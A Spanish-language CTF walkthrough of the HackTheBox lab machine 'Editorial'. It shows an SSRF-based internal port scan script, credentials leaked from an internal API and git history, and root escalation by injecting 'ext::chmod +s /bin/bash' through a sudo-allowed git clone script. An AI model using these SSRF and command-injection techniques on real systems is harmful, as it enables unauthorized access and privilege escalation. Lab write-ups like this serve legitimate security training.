




# Tutorial de Editorial de HackTheBox en Español


Para empezar vamos a hacer un reconocimiento de los puertos abiertos en la máquina por TCP.

```
nmap -p- -sS -n -Pn --min-rate 5000 10.129.71.35

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-01 15:37 CET
Nmap scan report for 10.129.71.35
Host is up (0.045s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.23 seconds
```

Los puertos abiertos son el 22 y el 80, vamos a comprobar qué servicios están corriendo en ellos.

```
nmap -p22,80 -sVC 10.129.71.35

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-01 15:39 CET
Nmap scan report for 10.129.71.35
Host is up (0.041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.21 seconds
```

El escaneo de servicios nos reporta que hay un servicio http que nos intenta redirigir a `http://editorial.htb`, vamos a incluir este dominio en el `/etc/hosts` para poder acceder a la máquina a traves de él.

```
echo '10.129.71.35 editorial.htb' >> /etc/hosts
```

Hecho esto vamos a entrar al sitio web.


En la página entramos al enlace "**Publish with us**", donde nos encontramos con un formulario para subir un libro.


Vamos a rellenar el formulario e interceptar el envío con **burpsuite**.



A primera vista no vemos ningún campo que pueda ser vulerable, por lo que ahora interceptaremos la petición al hacer click en el botón "**Preview**".



Vemos los campos de la url y el archivo a subir.

En el campo de la url podemos intentar apuntar a nuestro equipo para ver si se está haciendo una petición a la url proporcionada.

Iniciamos un servidor http con python.

```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Y enviamos la petición a `/test` por ejemplo.



```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.71.35 - - [03/Nov/2024 11:59:07] code 404, message File not found
10.129.71.35 - - [03/Nov/2024 11:59:07] "GET /test HTTP/1.1" 404 -
```

Efectivamente, se está haciendo una petición a la url, a demás el sitio mete en un archivo la respuesta de esas petición. Sin embargo, este archivo solo de descarga, no se interpreta por lo que no podemos hacer que apunte a un script malicioso o similar.

Lo que podemos también intentar es explotar un **server side request forgery**.

---

**¿Qué es server side request forgery (SSRF)?**

*SSRF es una vulnerabilidad que se acontece cuando un atacante puede hacer solicitudes de lado de servidor de modo que pueda acceder a recursos a los que no está autorizado.*

*Por ejemplo podrías acceder a recursos compartidos en la red en la que esté la máquina, a servicios abiertos internamente o a rutas de la propia pagina web para las que no tienes permisos.*

*Puedes aprender más sobre SSRF [aquí](https://portswigger.net/web-security/ssrf).*

---

Vamos a intentar descubrir si hay algún otro servidor web corriendo en la máquina internamente, para ello probaremos a hacer solicitudes a localhost (o `127.0.0.1`) a distintos puertos.



Comprobamos que cuando la solicitud a la url es errónea, la respuesta es `/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg`. Por lo que haremos un script que itere por un [diccionario](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Infrastructure/common-http-ports.txt) de puertos para http y nos saque los puertos cuya respuesta no sea la dicha anteriormente.

Primero creamos un archivo para mandar en el otro campo por post.

```
echo 'test' > test.txt
```

Y ejecutamos el siguiente script.

```
nano tryPorts.sh
```

```bash
#!/bin/bash

ports=$(cat /usr/share/seclists/Discovery/Infrastructure/common-http-ports.txt)

for port in $ports; do
  res=$(curl -s -X POST http://editorial.htb/upload-cover -F "bookurl=http://127.0.0.1:$port" -F "bookfile=@test.txt")
  echo -ne "$port - $res                    \r"
  if ! [ "$res" == "/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg" ]; then
    echo -e "\nPort: $port"
    echo "$res"
  fi
done
echo
```

* **Nota**: cambiar la ruta del diccionario en la línea `3` si no lo tienes ahí.

```
chmod +x tryPorts.sh
./tryPorts.sh

5000 - static/uploads/fa532740-487b-44c3-851d-d981282b8e78                                          
Port: 5000
static/uploads/fa532740-487b-44c3-851d-d981282b8e78
```

Parece que en el puerto 5000 hay algo, si ponemos la ruta que nos ha dado en el navegador, se nos descarga el siguiente archivo en json.

```json
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

Parece que en el puerto `5000` de la máquina hay una api corriendo internamente.

Para navegar por ella cómodamente, haremos un pequeño script en bash que haga la solicitud y devuelva la respuesta en texto claro, sin tener que descargar ningún archivo con la respuesta.

```
nano doreq.sh
```

```bash
#!/bin/bash

path=$(curl -s -X POST http://editorial.htb/upload-cover -F "bookurl=$1" -F "bookfile=@test.txt")
curl -s "http://editorial.htb/${path}"
```

Por ejemplo vamos a inspeccionar la ruta `api/latest/metadata/messages/authors`.

```
./doreq.sh "http://127.0.0.1:5000/api/latest/metadata/messages/authors" | jq
```

```json
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

Nos devuelve un mensaje que formateado quedaría de la siguiente manera.

```
Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.

Your login credentials for our internal forum and authors site are:
Username: dev
Password: dev080217_devAPI!@
Please be sure to change your password as soon as possible for security purposes.

Don't hesitate to reach out if you have any questions or ideas - we're always here to support you.

Best regards, Editorial Tiempo Arriba Team.
```

Parece un mensaje de bienvenida a un nuevo trabajador, le están dando su usuario y contraseña: `dev:dev080217_devAPI!@`.

Vamos a probar a autenticarnos en la máquina por ssh con estas credenciales.

```
ssh dev@editorial.htb

dev@editorial.htb's password: dev080217_devAPI!@
```

¡Ha funcionado!

Una vez dentro podemos leer la flag del usuario.

```
cd
cat user.txt
```

En el `home` del usuario podemos encontrar un directorio `apps`, vamos a entrar y listar su contenido.

```
cd apps
ls -lA

total 4
drwxr-xr-x 8 dev dev 4096 Jun  5 14:36 .git
```

Parece un proyecto en git que actualmente está vacío, vamos a listar commits pasados en busca de alguna credencial desprotegida.

```
git log

commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

...etc...
```

El commit `change(api): downgrading prod to dev` nos llama especialmente la atención, así que vamos a ver que se cambió en ese commit.

```
git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae

...etc...

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------
```

Lo que se cambió fue el mensaje de bienvenida del que hemos sacado la contraseña de `dev` previamente. Cambia el usuario `dev` por `prod` y sus respectivas contraseñas:

```
Username: prod
Password: 080217_Producti0n_2023!@
```

Vamos a intentar autenticarnos ahora como prod.

```
su prod
Password: 080217_Producti0n_2023!@
```

Para escalar privilegios, comprobaremos si el usuario `prod` puede ejecutar algún comando como root mediante `sudo`.

```
sudo -l
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

Podemos ejecutar el script `/opt/internal_apps/clone_changes/clone_prod_change.py` como root, vamos a inspeccionarlo para ver si podemos abusar de él para convertirnos en root.

```
cat /opt/internal_apps/clone_changes/clone_prod_change.py
```

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

El script está intentando clonar un repositorio a partir de una url (el primer argumento). El problema es que, como podemos ver en `multi_options=["-c protocol.ext.allow=always"]`, se está permitiendo el uso de ext, que podemos aprovechar para ejecutar un comando.

---

**¿Qué es ext?**

*En el contexto de git ***ext*** es una manera de obtener el repositorio mediante un comando en vez de simplemente una url.*

*Esto puede ser muy peligroso si la url está controlada por el usuario ya que le esas permitiendo ejecutar cualquier comando en tu máquina.*

*Puedes encontrar más información sobre ***ext*** [aquí](https://git-scm.com/docs/git-remote-ext).*

---

Para explotar esto bastará con ejecutar el script con sudo y pasarle como primer argumento el payload `ext::<comando-a-ejecutar>`.

Por ejemplo vamos a darle a la bash el privilegio `suid`, lo que nos permitirá posteriormente ejecutar una bash de root.

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::chmod +s /bin/bash"
```

La ejecución da un error porque no hemos proporcionado una url válida. Sin embargo el comando debería haberse ejecutado igualmente.

Ahora abriremos una bash con el parámetro `-p` para que use el bit `suid`.

```
bash -p
```

Y ya somos **root**, por tanto ya podemos leer su flag, concluyendo así la máquina **Editorial**.

```
cd /root
cat root.txt
```

Tras acabar la máquina no olvides eliminar la línea del `/etc/hosts` correspondiente a la máquina para evitar que se acumulen líneas con cada máquina que hagas.

Si te ha parecido útil, considera dejar una estrella al proyecto. Gracias y mucha suerte en tus próximas máquinas ❤️.